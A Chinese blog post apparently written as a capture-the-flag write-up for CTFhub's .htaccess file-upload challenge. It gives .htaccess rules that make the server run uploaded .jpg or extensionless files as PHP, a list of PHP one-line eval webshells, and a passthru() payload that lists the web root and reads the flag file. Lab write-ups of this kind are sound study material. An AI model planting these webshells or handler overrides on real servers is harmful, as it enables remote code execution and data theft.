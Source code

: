 ### 【CTF整理】CTFhub技能树-Web-文件上传-.htaccess

CTFhub技能树里面的题最近做了一些，但是除了之前的SQL注入之外，其他的我实在没什么兴趣整理，毕竟网上的整理出来的博主很多，之所以专门整理这个文件上传.htaccess的题目，是因为我踩坑了，本以为一道简单的题目我就这么硬生生的踩进去了，还差点没出来，浪费了不少金币啊。看别的博主都是上传.htaccess文件，上传修改后缀的一句话木马，菜刀或是蚁剑一连就getshell了，简单的不能再简单，为毛我试了N次都是不行？试了各种形式的.htaccess文件，各种报错。网上如此轻易用蚁剑连上的博主，我是不知道怎么做到的（可能是我菜逼吧，不过网上好像就一两个版本，严重怀疑是最开始的那一篇带偏一堆人） 。吐槽结束，记坑。

#### 1、常规思路

修改.htaccess文件，上传指定后缀名的一句话，菜刀连接getshell。------  失败

基本上就这样
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200515013537844.png)

```
我试过的.htaccess内容：
版本1
<FilesMath  ".jpg">
SetHandler application/x-httpd-php
</FilesMatch>


版本2
AddType application/x-httpd-php .jpg


配合PHP各种一句话文件后缀.jpg，
<?php eval($_PTST['c']);?>
<?php eval($_GET['c']);?>
<?php @eval($_PTST['c']);?>
<?php @eval($_GET['c']);?>
<?php eval($_PTST["c"]);?>
<?php eval($_GET["c"]);?>
<?php @eval($_PTST["c"]);?>
<?php @eval($_GET["c"]);?>


亲测，菜刀蚁剑没有一个能正常连接，要么200ok啥都不显示或者显示一句话，连不上，要么直接404，还有500的。

```

这种思路就是网上最流行的思路，想看的小伙伴可以看这里
 https://www.cnblogs.com/anweilx/p/12523582.html

##### 2、PHP passthru()函数

这个方法不需要菜刀，蚁剑什么，弱爆了，直接浏览器访问就看到了flag好吗，给想出这个方法的大佬点赞。
 PHP的passthru()这个函数可以直接执行外部命令，用法passthru" ls ")，同样有此功能的函数还有
 exec()、system()、 shell_exec()等。

**解法**
 这里先写一个.htaccess文件上传

```
<FilesMatch "sj">  //sj随便写的，后面上传的文件没有后缀，就叫sj
 SetHandler application/x-httpd-php
</FilesMatch>
```

然后写sj文件内容如下：

```
<?php 
#passthru("ls /var/www/html/"); //第一次只写这一行，用来找flag文件在哪里
passthru("cat /var/www/html/flag_229326633.php");//第二次是找到了flag文件之后，直接读取内容
?>
```

上传sj文件，然后浏览器直接访问文件：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200515013356949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)这里啥都没有，需要查看源码。（小坑小坑）
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200515013440997.png)得到flag

总结：
 有时候不要太依赖菜刀蚁剑之类的工具，不一定要一句话，我们还可以直接执行外部命令查看，PHP常见可以用来执行外部命令的函数有 passthru()、exec()、system()、 shell_exec()等。（不要太相信网上的解法，自己多动手尝试）

by 久违 2020.5.15 夜